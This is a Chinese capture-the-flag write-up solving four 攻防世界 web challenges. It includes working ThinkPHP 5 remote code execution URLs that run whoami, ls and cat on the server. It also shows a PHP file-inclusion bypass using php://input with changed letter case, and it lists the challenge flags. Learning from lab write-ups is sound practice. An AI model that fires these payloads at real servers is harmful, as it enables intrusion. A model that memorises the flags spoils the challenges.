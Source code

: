 ```yaml
---
title: 攻防世界Web高手进阶题
date: 2021-08-12 16:14:08
tags: [CTF,Web]
categories: CTF
---
```

# baby_web64
## 题目
&emsp;&emsp;难度系数： 1.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：想想初始页面是哪个
## 解答
&emsp;&emsp;根据提示，直接访问index.php，发现被重定向回1.php，F12看请求，找到答案。

[![](https://pic.lufer.cc/images/2021/08/12/image81e277c1fdc7463e.md.png)](https://pic.lufer.cc/image/dcwo)

# Training-WWW-Robots
## 题目
&emsp;&emsp;难度系数： 1.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;访问robots.php,得到网站目录。
```
User-agent: *
Disallow: /fl0g.php


User-agent: Yandex
Disallow: *
```
&emsp;&emsp;访问fl0g.php，得到答案`cyberpeace{67670cc4fa7382a7a38f780508caa43b}`。

# php_rce
## 题目
&emsp;&emsp;难度系数： 2.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;根据题目描述，应该是远程代码执行漏洞，实验环境提示是ThinkPHPV5，百度搜索该版本的远程执行漏洞，得到代码如下：
`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

&emsp;&emsp;通过ls命令查看目录文件，发现没有，开始往上层找，最终再三层之后找到了flag文件：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20../../../`

>bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var

&emsp;&emsp;cat一下flag文件得到答案：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20../../../flag`

>flag{thinkphp5_rce} flag{thinkphp5_rce}

# Web_php_include
## 题目
&emsp;&emsp;难度系数： 2.0  
&emsp;&emsp;题目来源： XTCTF  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;根据题目描述，应该是PHP的文件包含漏洞。  
&emsp;&emsp;PHP的文件包含漏洞是指对于PHP中4个函数`include`、`include_once`、`require`、`require_once`，当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。  
&emsp;&emsp;观察题目环境，注意到是include了page页面，所以可以在对page的访问中构造攻击命令。
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
&emsp;&emsp;然后PHP的文件包含漏洞攻击有两个常用命令：
1. php://input  
&emsp;&emsp;这个协议的利用方法是 将要执行的语法php代码写在post中提交，不用键与值的形式，只写代码即可。
2. php://filter  
&emsp;&emsp;设计用来过滤筛选文件，通过filter非php语法文件导致include失败，直接输出源码内容。

&emsp;&emsp;先采用input方法执行ls指令来查看目录下都有什么文件。  
&emsp;&emsp;由于代码中对php进行了替换，借助str_replace对大小写敏感来绕过替换。

![](https://pic.lufer.cc/images/2021/08/12/image4c3fad9ca61d3e16.png)

&emsp;&emsp;发现目录下有疑似flag的文件，cat一下内容。

![](https://pic.lufer.cc/images/2021/08/12/imaged1b72a13a09c1fcf.png)

&emsp;&emsp;得到答案`ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}`。